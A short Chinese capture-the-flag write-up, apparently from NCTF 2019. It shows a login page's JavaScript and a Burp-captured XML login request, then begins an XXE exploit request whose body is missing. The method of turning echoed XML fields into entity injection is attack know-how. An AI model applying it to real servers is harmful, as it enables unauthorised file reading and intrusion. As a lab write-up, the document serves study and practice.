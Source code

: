 ```
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

用XML和服务器通讯，联想到XXE攻击

burp抓post包得到

```
POST /doLogin.php HTTP/1.1
Host: nctf2019.x1ct34m.com:40002
Content-Length: 207
Accept: application/xml, text/xml, */*; q=0.01
Origin: http://nctf2019.x1ct34m.com:40002
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
DNT: 1
Content-Type: application/xml;charset=UTF-8
Referer: http://nctf2019.x1ct34m.com:40003/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

<user><username>admin</username><password>123</password></user>
```

根据js脚本可以发现username是可以回显的

然后构造一下exp

```
POST /doLogin.php HTTP/1.1
Host: nctf2019.x1ct34m.com:40002
Content-Length: 207
Accept: application/xml, text/xml, */*; q=0.01
Origin: http://nctf2019.x1ct34m.com:40002
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
DNT: 1
Content-Type: application/xml;charset=UTF-8
Referer: http://nctf2019.x1ct34m.com:40003/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

```